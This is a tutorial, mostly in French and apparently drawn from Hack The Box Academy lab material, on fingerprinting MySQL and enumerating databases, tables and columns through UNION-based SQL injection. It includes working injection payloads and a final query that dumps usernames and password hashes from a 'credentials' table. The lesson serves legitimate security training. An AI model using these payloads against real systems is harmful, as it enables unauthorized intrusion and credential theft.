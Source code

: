 # Database Enumeration

***

### <mark style="color:red;">MySQL Fingerprinting</mark>

Avant d'énumérer la base de données, nous devons généralement identifier le type de SGBD (Système de Gestion de Base de Données) auquel nous avons affaire. En effet, chaque SGBD utilise des requêtes différentes, et connaître son type nous aidera à savoir quelles requêtes utiliser.

Dans un premier temps, nous pouvons faire une supposition basée sur le serveur web. Par exemple :

* Si le serveur web indiqué dans les réponses HTTP est **Apache** ou **Nginx**, il est probable que le serveur tourne sous **Linux**, et donc que le SGBD soit **MySQL**.
* Si le serveur web est **IIS** (Internet Information Services), il y a de fortes chances que le SGBD soit **MSSQL** (Microsoft SQL Server).

Cependant, cette supposition reste approximative, car de nombreuses bases de données peuvent être utilisées sur différents systèmes d'exploitation ou serveurs web.

Pour identifier précisément le SGBD utilisé, nous pouvons exécuter certaines requêtes spécifiques pour le "fingerprinting" de la base de données.

Comme ce module traite de **MySQL**, voici quelques requêtes et leurs résultats qui permettent d'identifier un serveur MySQL :

<table data-full-width="true"><thead><tr><th>Payload</th><th>When to Use</th><th>Expected Output</th><th>Wrong Output</th></tr></thead><tbody><tr><td><code>SELECT @@version</code></td><td>When we have full query output</td><td>MySQL Version 'i.e. <code>10.3.22-MariaDB-1ubuntu1</code>'</td><td>In MSSQL it returns MSSQL version. Error with other DBMS.</td></tr><tr><td><code>SELECT POW(1,1)</code></td><td>When we only have numeric output</td><td><code>1</code></td><td>Error with other DBMS</td></tr><tr><td><code>SELECT SLEEP(5)</code></td><td>Blind/No Output</td><td>Delays page response for 5 seconds and returns <code>0</code>.</td><td>Will not delay response with other DBMS</td></tr></tbody></table>

<figure><img src="https://academy.hackthebox.com/storage/modules/33/db_version_1.jpg" alt=""><figcaption></figcaption></figure>

***

### <mark style="color:red;">INFORMATION\_SCHEMA Database</mark>

Pour extraire des données des tables en utilisant **UNION SELECT**, nous devons correctement formuler nos requêtes **SELECT**.\
Pour cela, nous avons besoin des informations suivantes :

* Liste des bases de données
* Liste des tables dans chaque base de données
* Liste des colonnes dans chaque table

Avec ces informations, nous pouvons construire notre requête **SELECT** pour extraire des données de n'importe quelle colonne, dans n'importe quelle table, de n'importe quelle base de données présente dans le SGBD.

C'est ici que nous pouvons utiliser la base de données **INFORMATION\_SCHEMA**.

La base **INFORMATION\_SCHEMA** contient des **métadonnées** sur les bases de données et les tables présentes sur le serveur. Cette base joue un rôle crucial dans l'exploitation des vulnérabilités **SQL Injection**.

Comme **INFORMATION\_SCHEMA** est une base de données différente, nous ne pouvons pas appeler ses tables directement avec une requête **SELECT**. Si nous spécifions uniquement le nom d'une table dans une requête **SELECT**, la requête cherchera cette table dans la base de données active.

Pour référencer une table présente dans une autre base de données, nous pouvons utiliser l’opérateur **"."** (point).\
Par exemple, pour sélectionner la table `users` située dans une base de données nommée `my_database`, nous pouvons utiliser :

```sql
SELECT * FROM my_database.users;
```

```sql
SELECT * FROM my_database.users;
```

Similarly, we can look at tables present in the `INFORMATION_SCHEMA` Database.

***

### <mark style="color:red;">SCHEMATA</mark>

* Pour commencer l’énumération, il faut lister les **bases de données** disponibles.
* La table `SCHEMATA` dans `INFORMATION_SCHEMA` contient **toutes les bases du serveur**.
* La colonne `SCHEMA_NAME` contient les **noms des bases**.
* Tester d’abord sur une base locale pour voir comment la requête fonctionne.

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

* On voit les bases `ilfreight` et `dev`.
* Remarque : les **trois premières bases** sont des bases MySQL par défaut et sont généralement ignorées lors de l’énumération. Parfois, il y a aussi `sys`.
* On peut faire la même chose via une **injection SQL UNION** avec le payload correspondant

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA--    
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_dbs.png" alt=""><figcaption></figcaption></figure>

* On retrouve encore les bases `ilfreight` et `dev`, en excluant les bases par défaut.
* Pour savoir **quelle base utilise l’application** pour les données des ports, on peut exécuter :

```sql
SELECT database();
```

* Même méthode que pour récupérer la **version du DBMS**.

```sql
cn' UNION select 1,database(),2,3-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/db_name.jpg" alt=""><figcaption></figcaption></figure>

We see that the database name is `ilfreight`. However, the other database (`dev`) looks interesting. So, let us try to retrieve the tables from it.

***

### <mark style="color:red;">TABLES</mark>

* Avant d’extraire les données de la base `dev`, il faut **lister ses tables**.
* La table `TABLES` dans `INFORMATION_SCHEMA` contient **toutes les tables**.
* Colonnes importantes :
  * `TABLE_SCHEMA` → indique la base
  * `TABLE_NAME` → nom de la table
* Même méthode que pour lister les bases ; exemple : payload pour trouver les tables de `dev`.

{% code overflow="wrap" fullWidth="true" %}
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
{% endcode %}

Note how we replaced the numbers '2' and '3' with 'TABLE\_NAME' and 'TABLE\_SCHEMA', to get the output of both columns in the same query.

&#x20; &#x20;

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_tables_1.jpg" alt=""><figcaption></figcaption></figure>

Note: we added a (where table\_schema='dev') condition to only return tables from the 'dev' database, otherwise we would get all tables in all databases, which can be many.

***

### <mark style="color:red;">COLUMNS</mark>

* Pour extraire les données de la table `credentials`, il faut d’abord **trouver ses colonnes**.
* La table `COLUMNS` dans `INFORMATION_SCHEMA` contient **toutes les colonnes** de toutes les bases.
* Colonnes utiles :
  * `COLUMN_NAME` → nom de la colonne
  * `TABLE_NAME` → nom de la table
  * `TABLE_SCHEMA` → base à laquelle la table appartient
* Même méthode que précédemment : payload pour lister les colonnes de `credentials`.

{% code overflow="wrap" fullWidth="true" %}
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
{% endcode %}

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_columns_1.jpg" alt=""><figcaption></figcaption></figure>

The table has two columns named `username` and `password`. We can use this information and dump data from the table.

***

### <mark style="color:red;">Data</mark>

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

Remember: don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.

<figure><img src="https://academy.hackthebox.com/storage/modules/33/ports_credentials_1.png" alt=""><figcaption></figcaption></figure>

We were able to get all the entries in the `credentials` table, which contains sensitive information such as password hashes and an API key.

